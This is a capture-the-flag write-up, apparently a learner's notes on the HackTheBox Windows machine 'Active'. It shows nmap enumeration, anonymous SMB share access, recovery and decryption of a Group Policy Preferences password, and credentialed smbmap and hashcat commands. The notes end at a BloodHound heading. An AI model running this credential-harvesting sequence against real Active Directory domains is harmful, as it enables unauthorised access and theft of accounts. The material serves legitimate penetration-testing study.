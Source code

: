 ## **Box Info::**

OS: Windows 
IP: 10.10.10.100

## **Skills learned::**

Windows
Active Directory
Kerberoasting
Powershell

### **Enumeratiion::**

nmap -p- -A -oN (-f to bypass FW) Activeports.txt ${IP}
dnsrecon -d 10.10.10.100 -r 10.0.0.0/8
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
#find all nmap scripts to enum smb

```
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-25 01:07:00Z) #Make sure attack box is within 1min of this time.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? *** Nice target to try first ***
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
Host script results:
|_clock-skew: 23m05s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-25T01:07:55
|_  start_date: 2021-12-25T01:04:50

```

### **OSINT::**

+ https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage

### **Part 1::**

```
:smbclient -L \\\\Active\\                                                                             1 ⨯
Enter WORKGROUP\kali's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk  
        SYSVOL          Disk      Logon server share 
        Users           Disk  
    
smbclient \\\\Active\\Replication
      smb: \active.htb\Policies\> ls
      .                                   D        0  Sat Jul 21 06:37:44 2018
      ..                                  D        0  Sat Jul 21 06:37:44 2018
      {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Sat Jul 21 06:37:44 2018
      {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Sat Jul 21 06:37:44 2018
  
 smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> more Groups.xml
      <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

  smb: prompt off
  smb: recurse on
  smb: mget *
```

# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ :: GPPstillStandingStrong2k18

**Creds::**
active.htb/svc_tgs:GPPstillStandingStrong2k18

enum4linux <ip> # gives smb share login access.
smbmap -H <ip> # lists shares
smbmap -R <share name> -H <ip> -A <file> -q #quiet

GetADUsers.py -all active.htb/svc_tgs -dc-ip <ip>

Try smbmap again::
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip>
:: Now READ ONLY access to NETLOGON,Replication,SYSVOL,Users
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip> -R Users #recursively list files in Users smb share
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt -q
cat user.txt :: 86d67d8ba232bb6a254aa4d10159e983 >hashsmb.txt
hashcat hashsmb.txt /usr/share/wordlist/rockyou.txt

**Part II: Bloodhound::**
